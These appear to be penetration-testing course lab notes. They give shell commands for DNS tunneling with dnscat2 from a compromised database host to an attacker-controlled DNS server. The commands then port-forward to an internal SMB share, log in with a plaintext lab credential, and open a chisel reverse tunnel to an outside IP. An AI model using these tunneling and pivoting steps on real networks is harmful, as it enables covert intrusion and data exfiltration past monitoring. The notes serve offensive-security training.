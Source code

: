 ### 19.2.2. DNS Tunneling with dnscat2
#### Starting tcpdump on FELINEAUTHORITY to listen for packets on UDP port 53
```Shell
sudo tcpdump -i ens192 udp port 53
```
#### Starting the dnscat2 server on FELINEAUTHORITY
```Shell
dnscat2-server feline.corp
```
This indicates that the dnscat2 server is listening on all interfaces on UDP/53
#### Run the dnscat2 client on PGDATABASE01
```Shell
cd dnscat
```

```Shell
./dnscat feline.corp
```
The dnscat2 client reports that a session has been established
#### Check the connections on the server
```Shell
dnscat2-server feline.corp
```
#### Activate all the windows
```dnscat2
windows
```

```dnscat2
window -i 1
```

```dnscat2
?
```
#### Background our console session by pressing C+z and get information on the listen command
```dnscat2
listen --help
```
According to the help message output, listen operates much like ssh -L
#### Setting up a port forward from FELINEAUTHORITY to PGDATABASE01
```Shell
listen 127.0.0.1:4455 172.16.186.217:445
```
#### Connecting to HRSHARES's SMB server through the dnscat2 port forward
```Shell
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
```
## Additional techniques from PG-Practice
#### Chisel client on Linux host
```Shell
./chisel client 192.168.45.250:8443 R:8000:127.0.0.1:8000
```